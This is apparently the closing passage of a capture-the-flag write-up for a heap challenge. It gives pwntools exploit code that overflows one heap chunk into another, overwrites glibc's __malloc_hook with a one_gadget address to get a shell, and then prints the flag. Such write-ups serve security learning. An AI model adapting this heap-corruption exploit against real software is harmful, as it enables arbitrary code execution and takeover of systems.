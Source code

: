 ```python
    free(challenge, 1) # Free chunk B.
    malloc_hook_address = libc_base_address + libc.sym["__malloc_hook"]
    pwn.log.info("__malloc_hook: {}".format(hex(malloc_hook_address)))
    packed_overwrite_address = pack_address_and_remove_nulls(malloc_hook_address)
    malloc(challenge, 0x178, pwn.cyclic(0x100) + packed_overwrite_address) # Overflow chunk B into chunk A.

    # After a couple of mallocs, the malloc hook address will be returned by malloc.
    one_gadget_address = libc_base_address + 0x106ef8 # actual libc
    #one_gadget_address = libc_base_address + 0x106ef8 # my libc
    malloc(challenge, 0xf8, pwn.cyclic(0x20))
    malloc(challenge, 0xf8, pack_address_and_remove_nulls(one_gadget_address)) # Overwrite the malloc hook.

    # Call malloc to call the overwritten hook.
    challenge.sendlineafter(MENU, "M")
    challenge.sendlineafter("Size:", "123")

    pwn.log.info("You should have a shell now!")
    challenge.interactive()


if __name__ == "__main__":
    main()
```

## Flag
`OOO{4_b4byh34p_h45_nOOO_n4m3}`

